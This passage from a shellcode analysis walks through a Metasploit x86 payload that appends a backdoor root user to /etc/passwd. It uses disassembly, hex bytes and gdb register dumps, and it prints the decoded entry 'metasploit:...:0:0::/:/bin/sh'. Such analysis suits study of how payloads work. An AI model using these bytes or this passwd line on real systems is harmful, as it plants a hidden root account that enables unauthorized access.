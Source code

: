 The man page explains that the `O_APPEND` has the following effect:

> The file is opened in append mode. Before each write(2), the file offset is positioned at the end of the file, as if with lseek(2).  The modification of the  file  offset  and  the write operation are performed as a single atomic step.

This makes sense in the context of what the payload needs to do. `/etc/passwd` contains one line per user, so the desired functionality would be to append a new line to the end of the file, rather than writing in the middle of it or overwriting it altogether.

After invoking the call with `int 0x80`, the return value is stored in `$eax`, which is the file descriptor that can be used to access the file, which is then moved into `$ebx`.

Now that the file is open for writing, the same CALL-POP method is used as was seen in the previous example to define string data and pop it into a register. The `call` instruction jumps to `\x59\x8b\x51\xfc` which pops into `$ecx` and moves the value at `$ecx-4` into `$edx`:

```shell_session
$ echo -ne "\x59\x8B\x51\xFC" | ndisasm -b 32 -p intel -
00000000  59                pop ecx
00000001  8B51FC            mov edx,[ecx-0x4]
```

The value pushed into `$ecx` can be revealed by echoing the bytes that are defined in place:

```shell_session
$ echo -e "\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a"
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

As can be seen, this reflects the default options that were specified and is a valid entry for the `passwd` file.

After this is popped into `$ecx`, as mentioned above, `$ecx-4` is moved into `$edx`. After the `call` instruction, the value `0x28` is defined, which can be found 4 bytes before the address that was pushed on to the stack as the return address; which can be seen if inspecting in `gdb` during execution:

```
gdb-peda$ x/4xw $ecx-4
0xbffff651:	0x00000028	0x6174656d	0x6f6c7073	0x413a7469
```

The value `0x28` is equal to `40` in decimal, which is the number of characters contained in the string that we wish to write to `/etc/passwd`.

After the arguments are defined, `0x4` is pushed on to the stack and popped into `$eax`, which is the syscall for [write](https://linux.die.net/man/2/write) and it is then invoked with `int 0x80`.

The man page for [write](https://linux.die.net/man/2/write) states:

> On success, the number of bytes written is returned (zero indicates nothing was written).

And upon inspection of the `$eax` register after the syscall is invoked, we can see the return value is indeed `0x28`, indicating a successful execution:

```
[----------------------------------registers-----------------------------------]
EAX: 0x28 ('(')
EBX: 0x3
ECX: 0xbffff655 ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EDX: 0x28 ('(')
ESI: 0x401fd4 --> 0x1edc
EDI: 0xbffff68c --> 0xbffff62a --> 0xcb89c931
EBP: 0xbffff6a8 --> 0x0
ESP: 0xbffff5fc ("/etc//passwd")
EIP: 0xbffff686 --> 0xcd58016a
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xbffff681:	push   0x4
   0xbffff683:	pop    eax
```